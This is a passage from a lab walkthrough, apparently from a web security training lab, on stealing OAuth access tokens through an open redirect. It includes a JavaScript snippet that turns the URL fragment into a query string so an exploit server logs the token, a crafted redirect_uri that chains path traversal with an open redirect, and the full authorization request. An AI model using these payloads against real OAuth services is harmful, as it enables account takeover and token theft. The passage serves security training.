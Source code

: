 
And it contains the access token in the url:



![img](images/Stealing%20OAuth%20access%20tokens%20via%20an%20open%20redirect/12.png)


The value is not logged because it starts with “#”. 

From the solution I found a way to log the second part after “#”:

```
<script>
window.location = '/?'+document.location.hash.substr(1)
</script>
```


We can set the “redirect_uri” to redirect to “/exploit” in the exploit server:

```
redirect_uri=https://0a5100fc036a387b81e8347900740079.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0ac500c0030538a5812f33c001d60054.exploit-server.net/exploit
```

```
GET /auth?client_id=oy2ed6shddhvjw8klmsnu&redirect_uri=https://0a5100fc036a387b81e8347900740079.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0ac500c0030538a5812f33c001d60054.exploit-server.net/exploit&response_type=token&nonce=328741005&scope=openid%20profile%20email HTTP/2
``` 

We reach /exploit:



![img](images/Stealing%20OAuth%20access%20tokens%20via%20an%20open%20redirect/13.png)


And it causes a second redirection:



